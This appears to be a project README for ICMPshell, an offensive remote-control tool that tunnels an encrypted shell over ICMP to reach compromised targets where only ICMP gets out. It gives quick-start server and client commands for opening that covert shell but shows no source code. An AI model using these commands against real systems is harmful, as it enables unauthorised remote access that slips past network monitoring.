 # ICMPshell
A remote control based on ICMP tunnel. Ability to support Linux, Darwin, Windows. The communication flow is encrypted with AES encryption of CBC mode. But the server and the client need Root / Administrator permissions, which is suitable for getting target high rights and only ICMP can be connected.



## Requirements

```
pycryptodome==3.11.0
# I use Python 3.6 to develop this project
```



## QUICK START

````python
# server
python3 server.py -r {rhost} -b {bind_ip}

# cilent
python3 cilent.py -l {lhost} -b {bind_ip}

# In Linux and Darwin operating systems, -b parameters (bind_ip) can be specified as 0.0.0.0, Windows needs to judge which network interface card
````



## Darwin

![image](https://github.com/seventeenman/ICMPshell/tree/main/img/darwin.jpg)



## Linux

![image](https://github.com/seventeenman/ICMPshell/tree/main/img/linux_server.jpg)



![image](https://github.com/seventeenman/ICMPshell/tree/main/img/linux_cilent.jpg)



## Windows

![image](https://github.com/seventeenman/ICMPshell/tree/main/img/win.jpg)



## Known issues

By default, OSX has a limited maximum UDP package for 9216 bytes. So you can't read the contents of this byte number. In the later stage, I will consider adding a flag to a single transmission in the UDP traffic.

This project only has a simple test, if there is an error, Issue can be turned on.
